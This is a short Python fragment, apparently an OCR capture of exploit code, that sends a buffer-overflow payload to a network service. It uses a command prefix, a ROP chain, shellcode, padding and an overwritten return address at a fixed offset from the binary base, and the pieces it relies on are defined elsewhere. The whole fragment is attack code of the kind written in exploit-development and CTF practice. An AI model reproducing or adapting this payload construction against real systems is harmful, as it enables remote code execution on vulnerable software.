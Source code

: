 ```python

log.info("Sending payload..")
buf  = b""
buf += b"LST "
buf += rop
buf += sc
buf += b"A" * (offset-len(rop)-len(sc))
buf += b"B" * 4 
buf += p32(binary_base + 0x11396)
buf += b"D" * (size-len(buf))
p.sendline(buf)
input("Press enter to continue..")
p.close() 
```